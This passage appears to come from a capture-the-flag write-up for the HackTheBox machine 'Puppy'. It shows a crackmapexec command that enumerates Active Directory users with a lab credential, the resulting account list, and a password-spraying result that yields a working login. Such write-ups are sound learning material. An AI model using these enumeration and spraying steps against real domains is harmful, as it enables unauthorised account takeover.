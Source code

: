 Okay maybe we need to do a password spraying on these passwords . But first let’s enumerate the users on this AD

```bash
crackmapexec smb 10.10.11.70 -u levi.james -p KingofAkron2025! --users

SMB         10.10.11.70     445    DC               [+] Enumerated domain user(s)
SMB         10.10.11.70     445    DC               PUPPY.HTB\steph.cooper_adm               badpwdcount: 0 desc:

SMB         10.10.11.70     445    DC               PUPPY.HTB\steph.cooper                   badpwdcount: 0 desc:

SMB         10.10.11.70     445    DC               PUPPY.HTB\jamie.williams                 badpwdcount: 1 desc:

SMB         10.10.11.70     445    DC               PUPPY.HTB\adam.silver                    badpwdcount: 23 desc:

SMB         10.10.11.70     445    DC               PUPPY.HTB\ant.edwards                    badpwdcount: 1 desc:

SMB         10.10.11.70     445    DC               PUPPY.HTB\levi.james                     badpwdcount: 5 desc:

SMB         10.10.11.70     445    DC               PUPPY.HTB\krbtgt                         badpwdcount: 0 desc: Key Distribution Center Service Account
SMB         10.10.11.70     445    DC               PUPPY.HTB\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain

SMB         10.10.11.70     445    DC               PUPPY.HTB\Administrator                  badpwdcount: 0 desc: Built-in account for administering the computer/domain
```

After trying all the possible combinations we found out that this user is working : 

```bash
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
```

So let’s try and reuse Bloodhound with these creds and see if there is any relations 

![Description](/assets/images/Puppy/Screenshot_5.png)
